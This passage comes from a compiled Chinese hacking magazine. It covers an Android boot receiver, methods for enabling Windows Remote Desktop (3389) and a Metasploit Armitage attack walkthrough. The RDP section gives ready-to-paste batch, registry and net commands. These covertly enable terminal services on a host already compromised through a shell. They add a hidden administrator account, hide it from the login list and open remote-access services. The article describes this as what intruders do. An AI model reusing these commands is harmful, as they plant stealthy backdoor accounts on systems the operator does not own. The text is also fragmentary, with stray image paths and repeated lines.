# 黑客防线2011合订本（下）第二部分

---

```xml
<receiver android:name=".BootBroadcastReceiver">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</receiver>
```

图 3

图 4

当 Android 一旦启动，就会调用这个 `onReceive` 方法，然而这个方法就会启动这个服务；现在，当用户启动的时候我们就已经完成那个服务了，这个程序就已经写完了，接下来就得试验一下，看这个程序是否能够正常运行启动（如图 4 所示）。

试验成功。在写这个程序的时候我们一定要谨记不要写错一个代码，还有一定不要忘记添加权限。手机安全对于我们个人用户都很重要，所以以后我们不要在不正规的网站上下载软件，不要忘记安装手机杀毒软件，因为杀毒软件能够尽可能地除去一些垃圾软件，以及恶意插件等病毒文件。以上这些信息能够帮助我们远离病毒、远离恶意插件，这样才能帮助我们的手机正常使用。好了，到这里也应该结束了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：远程终端，攻防，服务器

# 远程终端攻防技术完全攻略专题

## ——远程终端的安装使用

图/文 Simeon

远程终端攻防技术专题分四个部分，本部分着重介绍在 Windows 2000 Server、Windows XP、Windows 2003 Server 以及 Windows 2008 Server 下如何常规和非常规地开启远程终端（俗称 3389）。

Windows XP/2000/2003 Server 中的 Windows Terminal Services（WTS）又称为远程终端服务（Remote Terminal Services），或者俗称为 3389，是在 Windows NT 中最先使用的一种终端，在 Windows 2000 Professional 版本中不可以安装，在 Windows 2000 Server 或以上版本才可以安装这个服务，其默认服务端口为 3389，在 Windows XP 系统中称为“远程桌面（Remote Desktop）”。远程终端服务是 Windows 2000 Server 中的一项重要服务，主要通过远程桌面连接来对服务器进行管理或者运行应用程序，其功能类似于远程管理软件。由于远程终端服务使用简单、方便，不产生交互式登录，而且可以在后台操作，因此在各行各业都有大量的应用，深受用户喜爱。

远程终端服务在很多大型系统中使用得越来越广泛，正是由于远程终端服务在 Windows Server 2000 以及 Windows 2003 Server 中开启非常简单方便：一般情况下都不需要重新安装，只需要运行几行 DOS 命令即可开启；且由于使用终端不受 IP 地址的限制，只要拥有用户账号及其对应的用户口令，就可以正常登录。因此对 Windows XP/2000/2003 Server 来讲，远程使用终端服务即开启了方便之门，也开启了网络安全隐患之门。而且目前还有针对 Windows XP/2000/2003 Server 及其以上版本的远程终端服务攻击软件，一旦攻击成功，对于运行重要程序的服务器将会带来不可估量的经济损失。下面对远程终端服务以及相关安全技术进行分析。

# Windows 2000 Server 开启远程终端

## 1. 远程终端服务开启步骤

- 在 Windows 2000 Server 中，有许多开启远程终端服务的方法，归纳起来主要通过以下步骤来进行。
- （1）查看“Terminal Services”是否开启（可通过服务管理器或 DOS 命令 `net start` 查看）。
- （2）启动 Windows Terminal Services 服务。
- （3）使用“远程桌面连接”（RDP）连接远程终端，若连接成功则表示服务开启成功。

## 2. 一些常见开启远程终端服务的方法

- （1）使用 Rots.vbs 脚本  
  Rots.vbs 是一个 VBS 脚本，通过系统自带 `cscript.exe` 执行，可用于开启终端服务及修改终端服务端口。

其使用格式为：

```bash
cscript.exe rots.vbs ip user userpass port /r
```

或

```bash
cscript.exe rots.vbs ip user userpass port /fr
```

- （2）使用 bat 命令  
  通过记事本建立一个 bat 文件，在其中分别输入以下内容：

```bat
echo [Components] > c:\sql
echo TSEnable = on >> sql
c:\sqlsysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\sql /q
```

运行该批处理命令后，重新启动计算机，则远程终端服务开启成功。该方法不能更改终端服务的端口。

- （3）导入一个 Reg 文件到需要开启终端服务的机器中  
  该方法主要是修改远程终端服务的端口及其相关设置，通过生成一个以 Reg 为后缀的文件，将该文件导入到需要开启终端服务的计算机上。  
  该方法比较隐蔽，通过服务器管理器以及 `net start` 命令均不会发现终端服务已经启动。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002
[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000D3D
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000D3D
```

- （4）使用 SQL 注入软件启动 3389 服务  
  在 Domain3.5 以及网名为教主的 HDSI 2.0 SQL 等注入工具中均提供了开启 3389 终端服务功能。  
  使用该类软件开启 3389 的前提条件是运行 Web 服务的服务器必须存在 SQL 注入漏洞，而且数据库用户权限较大，在 SQL Server 2000 中数据库用户必须为 sa。

- （5）使用其他软件开启 3389  
  在网上其他一些流行软件其开启原理跟前面类似，只是使用不同的编程语言进行实现。

## 3. 开启远程终端控制案例

本案例中的开启远程终端控制，是在已经取得计算机一个 Shell 的前提下，通过执行 vbs 脚本或者批处理命令来执行。在本案例中是在 Windows 2000 Server 中使用批处理命令开启远程终端。

- 1. 在 Shell 中执行 2000.bat 脚本，2000.bat 脚本内容如图 1 所示，可以将该脚本文件复制或者上传到需要开启远程终端服务的计算机中，然后执行该脚本文件即可。

图 1 2000.bat 文件内容

### 技巧

该脚本是开启 4455 端口作为远程终端服务端口，在脚本文档中可以根据需要修改其远程终端服务端口，即修改脚本中的 PortNumber 后的数值“dword:00001167”即可。该值为十六进制，在修改时可以使用系统附件中自带的计算器来计算：打开计算器后在“查看”菜单中选择“科学型”，然后选择“十进制”并输入端口值，最后选择“十六进制”即可，如图 2 所示。将该值覆盖 PortNumber 中的 dword 值即可，如果其值不足 8 位，则其前面补“0”。

图 2 使用计算器来计算端口值

- 2. 重启计算机。在 Windows 2000 Server 中开启远程终端服务必须重启才能生效。
- 3. 使用远程终端连接器进行连接测试。重启 Windows 2000 Server 后，需要先查看被开启远程终端服务的计算机的远程终端是否开放。可以使用扫描软件或者 sfind 等小工具查看远程终端口开放情况，例如输入命令 `sfind -p 4455 192.168.1.100` 来查看 IP 地址为 192.168.1.100 的计算机 4455 端口是否开放。如果开放则可以使用远程终端连接器进行连接。出现远程终端连接桌面后，输入用户名和密码即可进入远程终端桌面管理。

## 注意

- 1. `mt.exe` 也可以很方便地开启 Windows 2000 Server 的 3389 终端服务。
- 2. Windows 2000 Server 开启 3389 后需要重新启动。
- 3. 笔者曾经在一台计算机上遇到过执行 3389 开启命令后，显示成功，但却无法连接 3389。

# Windows XP 开启远程终端

Windows XP 开启 3389 分为两种情况，一种就是管理员为了方便自己，另外一种就是入侵者在获取权限下非法开启 3389，下面分两种情况来介绍。

## （一）图形界面开启

管理员开启也就是图形界面开启，操作非常简单，按照下面的步骤即可完成。

- 1. Windows XP 用户开启 3389

单击“我的电脑”-“属性”-“远程”，如图 3 所示，选中“允许从这台计算机发送远程协助邀请”即可。

图 3 开启远程协助

## 2. 查看远程终端端口开放情况

单击“开始”-“运行”，在打开中输入“cmd”打开命令提示符，在其中输入 `netstat -an | find "3389"`。如果远程终端开启成功，那么就会显示默认的 3389 端口正在监听，如图 4 所示。

图 4 查看远程终端端口监听状态

## 3. 测试连接远程终端

单击“开始”-“运行”，在打开中输入“mstsc.exe”，打开远程桌面连接客户端，在计算机中输入本机 IP 地址，接着会出现一个错误提示，如图 5 所示。不要紧张，在 Windows XP 中本机不能自己连接自己的 3389，但在 Windows 2003 中就可以自己连接自己的 IP 地址。这时就可以换虚拟机进行连接，在虚拟机中输入本机的 IP 地址。

图 5 远程终端连接错误提示

### 说明：

- 1. 通过虚拟机进行远程终端连接时，必须保证网络是连通的，即本机与客户机（虚拟机）是连通的。
- 2. 本机防火墙中要允许 3389 通过。具体操作方法如下：
  - 1）单击“开始”-“控制面板”-“Windows 防火墙”，打开后如图 6 所示。该界面是 Windows 防火墙的图形操作界面，默认情况下 Windows XP 开启了防火墙，而且允许例外，很多下载程序会自动修改以允许其通过。
  - 2）在 Windows 防火墙窗口中单击“例外”标签，如图 7 所示。该列表中有两种情况，一种是允许通过的程序或服务，另外就是不允许通过的。每一个名称前面都有一个单选框，选中表示允许，否则不允许。

名称前面都有一个单选框，选中表示允许，否则不允许。

图 6 Windows XP 自带的防火墙

图 7 Windows XP 中的例外程序和服务

- 3. 在“例外”标签中单击“添加端口”，如图 8 所示，在名称中输入“3389”，在端口号中输入“3389”，单击“确定”即可。

图 8 添加 3389 允许通过防火墙

## （二）命令行开启远程终端

## 1. 使用注册表命令开启 3389

以下代码粘贴复制执行即可。

```bash
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0
```

```bash
net user antian365.com antian365 /add
net localgroup Administrators antian365.com /add
net localgroup "Remote Desktop Users" antian365.com /add
attrib +h "%SYSTEMDRIVE%\Documents and Settings\antian365.com" /S /D
echo Y | reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t reg_dword /d 0
echo Y | reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /t reg_dword /d 1
echo Y | reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v "antian365.com" /t REG_DWORD /d 00000000 /f
sc config rasman start= auto
sc config remoteaccess start= auto
net start rasman
net start remoteaccess
```

## 2. 来自国外黑客的开启 3389 命令

虽然见证了很多在 Windows XP 和 Windows 2003 下开启 3389 的命令，但下面这个命令是最好用的，它不但添加了一个用户，同时将该用户添加到远程桌面用户组中，避免了权限限制情况下不能登录的问题，同时通过命令运行防火墙通过 3389，实在是好命令。该命令在 Windows 2003 下执行更佳，在 Windows XP 下添加用户后容易被用户发现。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：Metasploit，Armitage，Java

# Metasploit 下的高级武器——Armitage

图/文 乱雪

Armitage 是一款用 Java 写的 Metasploit 图形界面化攻击软件，可以用它结合 Metasploit 中已知的 exploit 来针对主机存在的漏洞自动化攻击。  
在 BackTrack 5 中已经默认存在了。首先我们更新一下 Metasploit，启动一个终端：

```bash
root@bt:~# cd /pentest/exploits/framework3
root@bt:/pentest/exploits/framework3# ./msfupdate
```

等待数分钟更新，完毕以后，启动一个 MSF 的 GUI，如图 1 所示。

`root@bt:/pentest/exploits/framework3# ./msfgui`  
点击左下角的“Start new msfrpcd”按钮启动 msfrpcd 服务，需要等待它加载模块，加载模块时右下角有滚动条滚动，等待加载完毕后，最终界面如图 2 所示。

图 2

图 1

然后启动 Armitage，它在 BackTrack 5 中位于菜单“BackTrack -> Exploitation Tools -> Network Exploitation Tools -> …”。

在 Metasploit Framework 中，启动它将弹出一个如图 3 所示的连接窗口。

如果一直在如图 6 所示的窗口中等待，说明设置有问题，请检查设置，特别是账号和密码。





使用 Armitage 需要连接到 `msfrpcd` 服务中，需要知道启动服务时设定的端口、账号和密码。这些信息可以在刚才启动的 msfgui 中查看：点击 msfgui 的 “File” 菜单中的 “Show Connection Details”，在弹出的对话框中就可以看到用户名、密码和端口等信息了，如图 4 所示。

在本例中，用户名为 `msf`，密码为随机密码 `zdcnjivxnt`，端口为 `55553`。当然这些可以在启动 msfgui 的时候更改，在图 1 所示的界面中就可以更改。这里主要关注用户名、密码和端口，将这些对应填写到启动 Armitage 后如图 3 所示的界面中，然后点击 “Connect” 按钮。如果填写无误，则很快就弹出了 Armitage 的主界面，如图 5 所示。

现在，我们就要对主机进行攻击了。我的攻击目标是 `192.168.1.105` 的一台英文版 Windows XP SP3 系统。

首先对目标主机进行扫描。Armitage 中集成了 nmap，点击 Armitage 的 “Hosts” 菜单，选择 “Nmap Scan”，弹出的子菜单中有很多扫描选项，我直接用 “Quick Scan（OS detect）”。这种快速扫描可以自动探测目标主机的操作系统，在 Armitage 攻击系统时，准确探测出操作系统是比较重要的。最后弹出如图 7 所示的 IP 输入框。





由于我是对一台主机进行扫描，故只需填目标 IP 地址即可。也支持一个网段的扫描，格式为输入框上方的提示：IP/网络位数。点击 “OK” 按钮即可进行扫描。这个时候可以在 Armitage 下方看到扫描进度，如图 8 所示。





扫描完成后弹出如图 9 所示的提示。



接着开始扫描漏洞，选择 Armitage 菜单上的 “Attacks”——“by port”，如图 10 所示。



图 10

选择 “by port” 意味着根据扫描到主机开放的端口，列出所有可以针对端口所对应服务攻击的已知漏洞列表。这里读者要注意，点击以后 Armitage 界面将看不到任何变动，千万不要误认为是 Armitage 没有响应你的点击，只需要耐心等待一会儿，就可以看到如图 11 所示的提示了。



图 11

至此扫描完成了。现在对目标主机点右键，就可以看到有个 “Attack” 菜单了，子菜单中列出了所有可以针对目标主机开放端口对应服务的 exploit，如图 12 所示。

